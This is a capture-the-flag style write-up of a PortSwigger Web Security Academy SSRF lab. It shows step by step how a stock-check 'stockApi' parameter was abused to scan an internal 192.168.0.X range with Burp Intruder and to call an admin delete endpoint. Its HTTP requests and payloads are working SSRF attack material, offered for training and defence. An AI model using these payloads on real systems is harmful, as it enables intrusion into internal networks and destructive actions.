

# SSRF - Basic SSRF against another Back-End System

## Overview

**Lab:** Basic SSRF against another back-end system  
**Platform:** PortSwigger Web Security Academy  
**Difficulty:** APPRENTICE  
**Category:** Server-Side Request Forgery (SSRF)

## Objective

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user carlos.

## Reconnaissance

### Initial Analysis

The application contains a stock check feature that makes server-side requests to an internal back-end system. Unlike the previous lab where the target was the local server itself, here the SSRF target is another system on the internal network (`192.168.0.X` range) running on port `8080`.

### Target Endpoint

```
https://0a03005e04ee1b0f81b6161500a10086.web-security-academy.net/
```

## Exploitation

### Step 1: Intercepting the Stock Check Request

I intercepted a stock check request and identified the `stockApi` parameter pointing to an internal IP:

**Original Request:**

```
POST /product/stock HTTP/2
Host: 0a03005e04ee1b0f81b6161500a10086.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2
```

The `stockApi` parameter contains a URL pointing to `http://192.168.0.1:8080/product/stock/check?productId=1&storeId=2`, confirming that the server communicates with an internal back-end system.

### Step 2: Scanning the Internal Network with Burp Intruder

Since the exact IP of the admin interface is unknown, I sent the request to Burp Intruder and configured the last octet of the IP address (`192.168.0.§X§`) as the payload position, with a numeric range from 1 to 255.

**Intruder Configuration:**

```
stockApi=http://192.168.0.§1§:8080/admin
```

**Payload:** Numbers from 1 to 255

After running the attack, I analyzed the results by status code. Most responses returned status code `500`, but payload `187` returned status code `200` with a response length of `3378` bytes, indicating a valid admin interface.

### Step 3: Accessing the Admin Interface

With the correct IP identified, I sent a request to the admin panel:

```
stockApi=http://192.168.0.187:8080/admin
```

The response contained the admin interface HTML, which included links to delete users:

```html
<a href="/http://192.168.0.187:8080/admin/delete?username=carlos">Delete</a>
```

### Step 4: Deleting the User Carlos

Using the SSRF vulnerability, I modified the `stockApi` parameter to call the delete endpoint directly:

**Final Exploit Request:**

```
POST /product/stock HTTP/2
Host: 0a03005e04ee1b0f81b6161500a10086.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

stockApi=http://192.168.0.187:8080/admin/delete?username=carlos
```

The server forwarded the request to the internal back-end system, successfully deleting the user `carlos`.

## ✅ Solution

### Exploit Steps

1. Intercept the stock check request and identify the `stockApi` parameter pointing to an internal IP
2. Use Burp Intruder to scan the `192.168.0.X` range (1-255) on port `8080` for the admin interface
3. Identify the correct IP (`192.168.0.187`) by filtering for status code `200`
4. Access the admin panel via `http://192.168.0.187:8080/admin` to discover the delete endpoint
5. Delete the user carlos via `http://192.168.0.187:8080/admin/delete?username=carlos`

### Final Payload

```
stockApi=http://192.168.0.187:8080/admin/delete?username=carlos
```

### Verification

By exploiting the SSRF vulnerability, I successfully scanned the internal network, discovered the admin interface on a back-end system, and deleted the user `carlos`. This demonstrates that SSRF can be used not only to attack the local server but also to pivot to other internal systems that are not directly accessible from the external network.

## Screenshots




## Key Takeaways

- SSRF can be leveraged to scan and discover internal network services that are not accessible from the outside
- Burp Intruder is effective for automating internal network enumeration through SSRF vulnerabilities
- Back-end systems on internal networks often lack authentication controls, as they rely on network segmentation for security
- Applications should validate and restrict the `stockApi` parameter to only allow requests to whitelisted domains and IPs
- Internal services should implement their own authentication and authorization, not rely solely on network-level access controls

## References

- [PortSwigger - SSRF](https://portswigger.net/web-security/ssrf)
- [PortSwigger - SSRF attacks against other back-end systems](https://portswigger.net/web-security/ssrf#ssrf-attacks-against-other-back-end-systems)
